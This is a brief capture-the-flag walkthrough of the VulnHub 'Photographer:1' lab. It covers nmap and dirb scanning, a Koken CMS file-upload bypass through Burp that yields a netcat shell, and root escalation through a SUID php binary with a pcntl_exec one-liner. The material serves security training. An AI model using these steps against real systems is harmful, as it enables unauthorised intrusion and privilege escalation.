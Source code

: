 

# Photographer:1 Walkthrough

**VulnHub Link:** [Photographer:1](https://www.vulnhub.com/entry/photographer-1,519/)
**Difficulty:** Easy
**Release Date:** 21 Jul 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```
whatweb <ip>:8000 --> koken 0.24.22 vuln

image.php.jpg uploaded and changed into image.php in burp intercept 

then downloaded and found path of shell file in web server

shell opened with netcat --> user flag captured

## 3. Privilege Escalation 

find / -perm /4000 2>/dev/null

php7.2 

./php -r "pcntl_exec('/bin/sh', ['-p']);"

escalating to root ---> root flag captured
